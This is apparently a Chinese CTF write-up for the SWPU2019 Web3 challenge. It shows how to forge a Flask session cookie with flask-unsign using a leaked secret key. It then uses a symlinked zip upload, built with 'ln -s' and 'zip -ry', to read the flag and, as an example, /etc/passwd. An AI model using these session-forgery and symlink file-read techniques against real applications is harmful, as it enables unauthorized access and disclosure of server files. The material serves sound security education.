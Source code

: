 # \[SWPU2019]Web3

## \[SWPU2019]Web3

## 考点

* Flask session伪造
* Linux命令
* `ln`命令新建"快捷方式"

## wp

标题flask-demo提示是个flask的框架

随便输入用户名和密码可以登录，然后回显用户名，这里可能有SSTI

![](<../../.gitbook/assets/image (8).png>)

点击upload提示`Permission denied!`，要进行flask session伪造，先试试SSTI，用户名输入`{{7*7}}`原样返回

![](<../../.gitbook/assets/image (7).png>)

只能想其他办法获取`secret_key`，发现在404页面的返回头存在`Swpuctf_csrf_token`，为`U0VDUkVUX0tFWTprZXlxcXF3d3dlZWUhQCMkJV4mKg==`

![](<../../.gitbook/assets/image (1).png>)

解码后为`SECRET_KEY:keyqqqwwweee!@#$%^&*`，然后重新加密session，内容是`{'id': b'1', 'is_login': True, 'password': '111', 'username': 'admin'}`

```
flask-unsign --secret "keyqqqwwweee!@#$%^&*" --sign --cookie "{'id': b'1', 'is_login': True,
'password': '111', 'username': 'admin'}"
```

得到`eyJpZCI6eyIgYiI6Ik1RPT0ifSwiaXNfbG9naW4iOnRydWUsInBhc3N3b3JkIjoiMTExIiwidXNlcm5hbWUiOiJhZG1pbiJ9.Ymz6jQ.Hk-k8PvafeNbp8uRfcuWnWVjJhA`

修改cookie可以访问`/upload`页面

在注释中找到代码

```python
@app.route('/upload',methods=['GET','POST'])
def upload():
    if session['id'] != b'1':
        return render_template_string(temp)
    if request.method=='POST':
        m = hashlib.md5()
        name = session['password']
        name = name+'qweqweqwe'
        name = name.encode(encoding='utf-8')
        m.update(name)
        md5_one= m.hexdigest()
        n = hashlib.md5()
        ip = request.remote_addr
        ip = ip.encode(encoding='utf-8')
        n.update(ip)
        md5_ip = n.hexdigest()
        f=request.files['file']
        basepath=os.path.dirname(os.path.realpath(__file__))
        path = basepath+'/upload/'+md5_ip+'/'+md5_one+'/'+session['username']+"/"
        path_base = basepath+'/upload/'+md5_ip+'/'
        filename = f.filename
        pathname = path+filename
        if "zip" != filename.split('.')[-1]:
            return 'zip only allowed'
        if not os.path.exists(path_base):
            try:
                os.makedirs(path_base)
            except Exception as e:
                return 'error'
        if not os.path.exists(path):
            try:
                os.makedirs(path)
            except Exception as e:
                return 'error'
        if not os.path.exists(pathname):
            try:
                f.save(pathname)
            except Exception as e:
                return 'error'
        try:
            cmd = "unzip -n -d "+path+" "+ pathname
            if cmd.find('|') != -1 or cmd.find(';') != -1:
				waf()
                return 'error'
            os.system(cmd)
        except Exception as e:
            return 'error'
        unzip_file = zipfile.ZipFile(pathname,'r')
        unzip_filename = unzip_file.namelist()[0]
        if session['is_login'] != True:
            return 'not login'
        try:
            if unzip_filename.find('/') != -1:
                shutil.rmtree(path_base)
                os.mkdir(path_base)
                return 'error'
            image = open(path+unzip_filename, "rb").read()
            resp = make_response(image)
            resp.headers['Content-Type'] = 'image/png'
            return resp
        except Exception as e:
            shutil.rmtree(path_base)
            os.mkdir(path_base)
            return 'error'
    return render_template('upload.html')


@app.route('/showflag')
def showflag():
    if True == False:
        image = open(os.path.join('./flag/flag.jpg'), "rb").read()
        resp = make_response(image)
        resp.headers['Content-Type'] = 'image/png'
        return resp
    else:
        return "can't give you"
```

session中的username为admin，password为111。

那这段代码就在说，先根据session中的username和password，以及IP地址生成上传目录，然后上传一个zip压缩包，对其进行解压，解压的文件名不能包含`/`，获得的第一个文件以图片形式展示。在`showflag()`中说明了flag的位置，但是不知道绝对路径。

如果使用`ln -s /proc/self/cwd/flag/flag.jpg test`新建一个指向`flag`的链接，再用`zip`压缩`test`文件，是不是就可以访问`flag`了，但是如果直接压缩不会保存连接符，要用`zip -y`参数

所以本题就是

1. `ln -s /proc/self/cwd/flag/flag.jpg test`
2. `zip -ry test.zip test`

再上传即可

![](<../../.gitbook/assets/image (6).png>)

## 小结

1. Linux下`/proc/self/cwd/`会指向进程的当前目录
2. `ln -s /etc/passwd test` 相当于新建一个链接到`/etc/passwd`的文件`test`，对`test`使用`cat`等命令会自动指向`/etc/passwd`
